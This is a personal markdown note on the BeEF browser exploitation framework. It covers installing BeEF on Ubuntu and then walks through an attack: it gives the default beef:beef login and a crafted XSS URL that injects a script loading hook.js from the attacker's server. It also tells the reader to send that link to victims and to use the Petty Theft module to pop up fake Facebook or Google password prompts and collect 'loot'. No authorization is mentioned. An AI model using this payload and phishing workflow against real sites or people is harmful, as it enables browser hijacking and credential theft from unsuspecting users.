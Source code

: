 ```yaml
---
title: BeEF
aliases:
  - BeEF
tags:
  - BeEF
  - XSS
description: BeEF is a security tool, allowing a penetration tester or system administrator additional attack vectors when assessing the posture of a target.
---
```

![[images/Pasted image 20241227174221.png]]

If you find an XXS, you can not only cause a victim to become part of your pseudo-botnet but you can also steal the contents of the copy memory , redirect them to links, turn on thier camera, and so much more using **BeEF Exploitation Framwork**.

# Installation
---
The first thing I am going to do is **install Ruby** on my Ubuntu 18.04 . To do this we want to run the following command:

```bash
sudo apt install ruby ruby-dev
```

The next step is to get the **BeEF source files. We will get these from git**. If you haven’t installed git, make sure to run the following command first:

```sh
sudo apt install git
```

Once git is available, we can **clone the git project** with the following command:

```sh
git clone https://github.com/beefproject/beef
```

This will download the source files for BeEF. **Next, move into the beef directory**:

```sh
cd beef
```

This is where the I started to **run into an issue**. The original beef instructions say to just run:

```sh
./install
```

However, when I did this, **I received a permission error.** To resolve that I ran:

```sh
sudo ./install
```

Once the **installation was successfully completed**, run this command to start **BeEF**:

```sh
./beef
```

![[images/Screenshot from 2024-12-27 19-36-39.png]]

# Attacking
---
Log into the **console UI** after the BeEF server hash started. As we see from the image above, the **UI URL is located at** http://127.0.0.1:3000/ui/panel. Open a browser and **go to that URL**.

![[images/Screenshot from 2024-12-27 19-49-27.png]]

**Login using the username and password beef:beef**

If we look back to the Terminal where we had started our BeEF server, we can see that there are two URL first UI URL 'http://172.26.114.224:3000/ui/panel' and second Hook URL 'http://172.26.114.224:3000/hook.js'. This is well obfuscated JavaScript payload that will control the victim user and will be injected into the victim brower's page. Once injected, their browser will connect back into your central server and the victim will be unaware.

Once we have located an XSS vulnerability on a page, we can use BeEF to exploit the end user. For Example, http://site.com/example.php?alert=, the alert variable takes any input and presents it to the end user. We can craft the URL to include the hook.js file. It will look something like: `http://site.com/example.php?alert=asda<script src=http://172.26.114.224:3000/hook.js></script>`.

Send this Crafted URL to victim and as soon as the victim will open the link in its browser, they will be part of your XSS zombie network.Going back to our UI panel, we should now see a victim has joined our server.


![[images/Screenshot from 2024-12-27 21-18-40.png]]

With an account hooked, there are many different modules within BeEF to exploit the end user. As from the image below, you can try to steal stored credentials, get host IP information, scan hosts within their network, and so much more.

![[images/Pasted image 20241227213127.png]]

One of my favorite attacks is called “petty theft” because of how simple it is. Drop down to Social Engineering folder and to Petty Theft. Configure how you want it, in this case we’ll use the Facebook example, and hit execute. Remember the IP for the custom logo field has to be your BeEF IP. This is so the victim can grab the image from your server.

![[images/Pasted image 20241227214106.png]]

After the attacker clicks Execute, on the victim’s system a Facebook password prompt will pop up. This is where you can get creative in targeting your users and use a popup that they would most likely enter. If you are looking to gain Google accounts, there is also a Google Phishing module. The purpose of this client side attack is that they are unaware that they are part of this zombie network and
the password prompt should seem like it is not out of the ordinary.

After the unsuspecting victim types in their password, go back to the UI to find your loot.

